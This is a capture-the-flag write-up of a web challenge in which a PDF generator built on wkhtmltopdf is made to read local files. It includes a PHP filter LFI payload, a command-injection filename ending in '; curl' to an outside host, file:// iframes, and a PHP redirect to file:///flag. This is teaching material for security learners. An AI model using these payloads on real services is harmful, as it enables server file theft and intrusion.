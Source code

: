 # Insomni'hack 2019 - Ezgen

<pre>Category: Web
Difficulty: Easy</pre>

We were offered a website that generates a pdf from a given URL.

## How it works

* Enter a URL and submit
* Browser is redirected to /webtopdf.php?url=http://site.url
* If everything is OK, a pdf is rendered with the content of the submitted site
* Sometimes the webtopdf.php redirects to homepage (if submitted URL is 404 for instance or submitted string is not a valid URL)
* There's javascript validation for the URL in the webpage; since there's not CSRF we can just call the `/webtopdf.php?url=xxx` directly without worrying of the validation, + it works as a GET request.

## Enumeration, reconnaissance

* Enumarate folders / files with [SecLists quickhits.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/quickhits.txt) - nothing interesting there
* Noticed a 403 on /flag - thought maybe that would be where the flag is but...
* Noticed a 403 for all non-existing URLs ^_^
* I generated a proper pdf and ran exiftool against it in case anything would be of interest:

`$ exiftool webtopdf.pdf`

I noticed that the pdf was created by `wkhtmltopdf 0.12.5`, which appears to be the [latest stable version](https://wkhtmltopdf.org/downloads.html).

There was also a mention of Qt in the results of exiftool so I thought maybe wkhtmltopdf was ran in some sort of window manager but it seems it is actually the webkit that's used to render the web page that uses Qt. Maybe not the right path right now but something to keep in mind.

* Searched google for all sites that have `inurl:webtopdf.php` and found only one instance that did not seem to be related to wkhtmltopdf: https://github.com/bogiesoft/hotelmis-ota/blob/master/webtoPDF.php

## Play with the behavior

* Try setting https://google.fr - OK, PDF is rendered
* Try setting the challenge URL - OK, PDF is rendered
* Try setting the challenge background image - OK, PDF is rendered
* Try setting http://localhost/flag, http://127.0.0.1/flag ... - nothing got rendered
* Try some dumb URLs with null bytes, command injection classics - page redirects to home
* Try injecting PHP wrappers LFI payloads, e.g. ?url=php://filter/convert.base64-encode/resource=/etc/passwd and other files - page redirects to home
* Try fuzzing a bit webtopdf.php parameters - nothing

## Try and actually attack webtopdf.php

### Known vulnerabilities

Here are some easy to find vulns that talk about wkhtmltopdf:

* [File inclusion vulnerability](https://www.virtuesecurity.com/kb/wkhtmltopdf-file-inclusion-vulnerability-2/)
* [Cure53 pentest report with local file access via HTML to PDF conversion](https://cure53.de/pentest-report_accessmyinfo.pdf)
* [Arbitrary command injection in pdfkit](https://snyk.io/vuln/SNYK-RUBY-PDFKIT-20071)
* Found nothing of interest on https://cvedetails.org

### Arbitrary command line injection

It seems the following command line is executed at some point:

`$ wkhtmltopdf www.google.com google.pdf`

So, at first I thought it might be possible to inject something in the command line; I connected to a server I control and created a file called `test out.pdf; curl http://mysite.lol/pingback` that I could hit on:

`http://mysite.lol/test out.pdf; curl http://mysite.lol/pingback`

I tried various files with such syntax on my server and pointed webtopdf.php to these URLs; got the hit on the whole `test out.pdf; curl http://mysite.lol/pingback` file but did not manage to get any command line injection.

### Local file inclusion via redirection

* After much frustration I decided to try other challenges, until I finally spent the last hour on Ezgen
* I asked an admin if I was on the right track, he could only confirm that the flag was located at /flag on the server
* Knowing that the service can hit my server, I tried and submit a URL containing the following but only got blank iframes in the pdf:

```html
<iframe src="file:///etc/passwd" height="500" width="500">
  <iframe src="file:///flag" height="500" width="500">
```

* After a while, I tried a location header pointing to /flag.

**It did the trick and we got the flag printed into the pdf! At 3:57 AM**

Contents of the php file hosted on my server:

```php
<?php

header("Location: file:///flag");

?>
```

We submitted the flag 2 minutes before the end of the CTF. That. Was. Close.

----

## Lessons learned

* In the end it was an easy challenge, so maybe next time start simple first! If it fails, think about more complex attack vectors.
* Think carefully before acting, sometimes it's really useful to just draw on paper who calls what, what's rendered where etc.
* Try focusing on a single problem at a time instead of flitting from a challenge to another...
* Never give up. Or maybe give up, but after the CTF has ended :)

----

Other interesting links around wkhtmltopdf:

* https://github.com/wkhtmltopdf/wkhtmltopdf/issues/1777
* https://blogs.gnome.org/mcatanzaro/2016/02/01/on-webkit-security-updates/
* https://wkhtmltopdf.org/usage/wkhtmltopdf.txt
* https://github.com/mikehaertl/phpwkhtmltopdf
